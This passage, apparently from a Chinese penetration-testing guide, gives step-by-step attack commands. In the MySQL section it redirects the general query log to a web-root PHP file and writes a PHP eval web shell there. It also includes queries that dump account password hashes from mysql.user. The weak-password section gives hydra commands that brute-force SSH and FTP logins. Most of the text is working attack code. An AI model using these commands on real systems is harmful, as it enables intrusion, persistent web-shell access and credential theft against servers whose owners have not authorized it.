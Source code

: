 ##### 3.2.6 MySQL数据库利用

具体可以看这篇文章：[MySQL不出网文件落地上线姿势 - AabyssZG's Blog](https://blog.zgsec.cn/archives/26.html)

1、查看MySQL版本

```
show variables like '%version%';
select version();      #这个只显示MySQL版本号

```

2、查看 `load_file()` 开启状态

```
show variables like '%secure%';       #这条可查看详细信息
show global variables like '%secure_file_priv%';

```

3、查看日志功能是否开启和对应目录

```
SHOW VARIABLES LIKE 'general%';
set global general_log = "ON";
set global general_log_file='/var/www/html/test.php';   #可以写入WebShell然后直接连接蚁剑

# 往日志里面写入 WebShell
select '&lt;?php @eval($_POST['AabyssTeam']);?&gt;';
# 此时已经写到 test.php 文件当中了，注意这个要知道网站的具体路径才可以实现

```

小技巧：获取MySQL账户和对应密码Hash

```
# MySQL &lt;= 5.6 版本
select host, user, password from mysql.user;

# MySQL &gt;= 5.7 版本
select host,user,authentication_string from mysql.user;

```

##### 3.2.7 弱口令爆破

爆破SSH密码

```
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 ssh
hydra -L 用户名字典.txt -P 密码字典.txt ssh://192.168.1.100
hydra -L 用户名字典.txt -P 密码字典.txt ssh://192.168.1.100 -s 40      //40是⽬标服务开放的端⼝

```

爆破FTP密码

```
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 ftp
hydra -L 用户名字典.txt -P 密码字典.txt ftp://192.168.1.100/

```
